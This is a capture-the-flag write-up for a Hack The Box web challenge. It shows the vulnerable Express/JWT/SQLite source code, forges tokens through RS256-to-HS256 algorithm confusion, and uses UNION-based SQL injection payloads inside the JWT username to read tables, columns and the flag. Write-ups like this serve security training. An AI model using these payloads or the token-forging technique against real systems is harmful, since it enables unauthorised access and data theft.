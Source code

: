 ```yaml
---
layout: post
category: writeup
---
```


### difficulty: medium
### description

```
A company that specialises in web development is creating a new site that is currently under construction. Can you obtain the flag?
```

- start by downloading source code:

- index.js:

```js
const express = require('express');
const app = express();
const bodyParser = require('body-parser');
const cookieParser = require('cookie-parser');
const routes = require('./routes');
const nunjucks = require('nunjucks');

app.use(bodyParser.urlencoded({ extended: false }));
app.use(cookieParser());

nunjucks.configure('views', {
    autoescape: true,
    express: app
});
app.set('views','./views');

app.use(routes);

app.all('*', (req, res) => {
    return res.status(404).send('404 page not found');
});

app.listen(1337, () => console.log('Listening on port 1337'));
```

- simple, it's calling routes/index.js:

```js
const AuthMiddleware = require('../middleware/AuthMiddleware');
const JWTHelper = require('../helpers/JWTHelper');
const DBHelper = require('../helpers/DBHelper');
... SNIP ...
// login user
let canLogin = await DBHelper.attemptLogin(username, password);
if(!canLogin){                 
	return res.redirect('/auth?error=Invalid username or password');
}
let token = await JWTHelper.sign({
	username: username.replace(/'/g, "\'\'").replace(/"/g, "\"\"") 
})
res.cookie('session', token, { maxAge: 900000 });
return res.redirect('/');
```

- imports some other files
- doesn't allow sql injection, replace in the username. 
- DBHelper simply adds users, checksusers, and attempts a login. all vulnerable if they didn't have the above code.
-  jwthelper.js:

```js
const fs = require('fs');
const jwt = require('jsonwebtoken');

const privateKey = fs.readFileSync('./private.key', 'utf8');
const publicKey  = fs.readFileSync('./public.key', 'utf8');

module.exports = {
    async sign(data) {
        data = Object.assign(data, {pk:publicKey});
        return (await jwt.sign(data, privateKey, { algorithm:'RS256' }))
    },
    async decode(token) {
        return (await jwt.verify(token, publicKey, { algorithms: ['RS256', 'HS256'] }));
    }
}
```

- this one does some interesting things with privatekeys and publickeys.
- the vulnerability here is that the server is accepting an HMAC256 verification when it used RSA256 to sign. I can use the public key that I have and the tool called [RSAtoHMAC](https://github.com/cyberblackhole/TokenBreaker/blob/master/RsaToHmac.py) to re-sign my own payloads.
- registering an admin:admin account and decoding the jwt token:

```json
{
  "username": "admin",
  "pk": "-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA95oTm9DNzcHr8gLhjZaY\nktsbj1KxxUOozw0trP93BgIpXv6WipQRB5lqofPlU6FB99Jc5QZ0459t73ggVDQi\nXuCMI2hoUfJ1VmjNeWCrSrDUhokIFZEuCumehwwtUNuEv0ezC54ZTdEC5YSTAOzg\njIWalsHj/ga5ZEDx3Ext0Mh5AEwbAD73+qXS/uCvhfajgpzHGd9OgNQU60LMf2mH\n+FynNsjNNwo5nRe7tR12Wb2YOCxw2vdamO1n1kf/SMypSKKvOgj5y0LGiU3jeXMx\nV8WS+YiYCU5OBAmTcz2w2kzBhZFlH6RK4mquexJHra23IGv5UJ5GVPEXpdCqK3Tr\n0wIDAQAB\n-----END PUBLIC KEY-----\n",
  "iat": 1674930131
}
```

- I now save the public key to a file and follow the [tokenbreaker](https://github.com/cyberblackhole/TokenBreaker) script:

![](assets/images/htb-under-construction-jwt.png)

![](assets/images/htb-under-construction-test.png)

- I can successfuly change the username value, now the SQL injection
- the vulnerable function is the following: 

```js
sqlite.Database('./database.db'
getUser(username){
        return new Promise((res, rej) => {
            db.get(`SELECT * FROM users WHERE username = '${username}'`, (err, data) => {
                if (err) return rej(err);
                res(data);
            });
        });
    }
```

- we will attempt a UNION SQLi using 1 row as the injection, also important to note that this is sqlite, simple payload to start

```sql
'UNION SELECT 1,2,3-- -
```

![](assets/images/htb-under-contruction-2.png)

- we can inject in 2
- now i try to read table names

```json
{"username":"admin'union select 1, tbl_name, 3 FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'-- -", "pk":"-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA95oTm9DNzcHr8gLhjZaY\nktsbj1KxxUOozw0trP93BgIpXv6WipQRB5lqofPlU6FB99Jc5QZ0459t73ggVDQi\nXuCMI2hoUfJ1VmjNeWCrSrDUhokIFZEuCumehwwtUNuEv0ezC54ZTdEC5YSTAOzg\njIWalsHj/ga5ZEDx3Ext0Mh5AEwbAD73+qXS/uCvhfajgpzHGd9OgNQU60LMf2mH\n+FynNsjNNwo5nRe7tR12Wb2YOCxw2vdamO1n1kf/SMypSKKvOgj5y0LGiU3jeXMx\nV8WS+YiYCU5OBAmTcz2w2kzBhZFlH6RK4mquexJHra23IGv5UJ5GVPEXpdCqK3Tr\n0wIDAQAB\n-----END PUBLIC KEY-----\n","iat":1674933169}
```

![](assets/images/htb-under-construction-table.png)

- now read the colum names:

```json
{"username":"admin'union select 1, sql, 3 FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='fla
g_storage'-- -", "pk":"-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA95oTm9DNzcHr8gLhjZaY\nktsbj1KxxUOozw0trP93BgIpXv6WipQRB5lqofPlU6FB99Jc5QZ0459t73ggVDQi\nXuCMI2hoUfJ1VmjNeWCrSrDUhokIFZEuCumehwwtUNuEv0ezC54ZTdEC5YSTAOzg\njIWalsHj/ga5ZEDx3Ext0Mh5AEwbAD73+qXS/uCvhfajgpzHGd9OgNQU60LMf2mH\n+FynNsjNNwo5nRe7tR12Wb2YOCxw2vdamO1n1kf/SMypSKKvOgj5y0LGiU3jeXMx\nV8WS+YiYCU5OBAmTcz2w2kzBhZFlH6RK4mquexJHra23IGv5UJ5GVPEXpdCqK3Tr\n0wIDAQAB\n-----END PUBLIC KEY-----\n","iat":1674933169}
```

![](assets/images/htb-under-construction-column.png)

- Read flag

```json
{"username":"admin' UNION SELECT 1, top_secret_flaag, 3 FROM flag_storage-- -", "pk":"-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA95oTm9DNzcHr8gLhjZaY\nktsbj1KxxUOozw0trP93BgIpXv6WipQRB5lqofPlU6FB99Jc5QZ0459t73ggVDQi\nXuCMI2hoUfJ1VmjNeWCrSrDUhokIFZEuCumehwwtUNuEv0ezC54ZTdEC5YSTAOzg\njIWalsHj/ga5ZEDx3Ext0Mh5AEwbAD73+qXS/uCvhfajgpzHGd9OgNQU60LMf2mH\n+FynNsjNNwo5nRe7tR12Wb2YOCxw2vdamO1n1kf/SMypSKKvOgj5y0LGiU3jeXMx\nV8WS+YiYCU5OBAmTcz2w2kzBhZFlH6RK4mquexJHra23IGv5UJ5GVPEXpdCqK3Tr\n0wIDAQAB\n-----END PUBLIC KEY-----\n","iat":1674933169}
```

![](assets/images/htb-under-construction-flag.png)


- overall a fun challenge, made some false assumptions regarding the DB but other than that, simple and to the point. 

best, gerbsec